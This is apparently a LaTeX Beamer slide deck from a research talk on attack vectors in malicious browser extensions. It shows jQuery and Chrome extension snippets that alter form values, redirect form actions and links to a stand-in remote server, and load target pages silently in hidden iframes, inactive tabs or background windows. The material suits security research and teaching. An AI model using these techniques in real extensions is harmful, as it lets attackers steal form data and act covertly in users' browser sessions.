 \documentclass[accentcolor=tud9c,colorbacktitle,xcolor=dvipsnames]{tudbeamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Design and Implementation - Attack Vectors \\ Manipulate Content}
    \begin{block}{Manipulate Form Attribute}
        \begin{lstlisting}[language=JavaScript, numbers=none]
$('input[name=target]').val('manipulated');
\end{lstlisting}        
    \end{block}
   \begin{block}{Manipulate Form Target}
       \begin{lstlisting}[language=JavaScript, numbers=none]
$('form').attr('action', REMOTE_SERVER_URL);
\end{lstlisting}        
    \end{block}
   \begin{block}{Manipulate Link Target}
       \begin{lstlisting}[language=JavaScript, numbers=none]
$('a[href=' + TARGETED_URL + ']').attr('href', REMOTE_SERVER_URL);
\end{lstlisting}        
    \end{block}
\end{frame}

\begin{frame}[fragile]
   \frametitle{Design and Implementation - Attack Vectors \\ Execute Attack In Background}  
   \begin{block}{Load web page in iframe}
       \begin{itemize}
           \item \lstinline[language=JavaScript]|$('<iframe>').attr('src', TARGET_URL).hide().appendTo(document.body);| 
       \end{itemize}
   \end{block}
   \begin{block}{Load web page in inactive tab}
        \begin{itemize}
            \item \lstinline[language=JavaScript]|chrome.tabs.query({active: false});|
            \item  \lstinline[language=JavaScript]|chrome.tabs.update(tabId, {url: TARGET_URL});|
        \end{itemize}   
   \end{block}
   \begin{block}{Load web page in background window}
       \begin{itemize}
           \item  \lstinline[language=JavaScript]|chrome.tabs.query({currentWindow: false});|
           \item  \lstinline[language=JavaScript]|chrome.tabs.create({url: TARGET_URL, windowId: windowId});}|
       \end{itemize}    
   \end{block}
\end{frame}
\end{document}
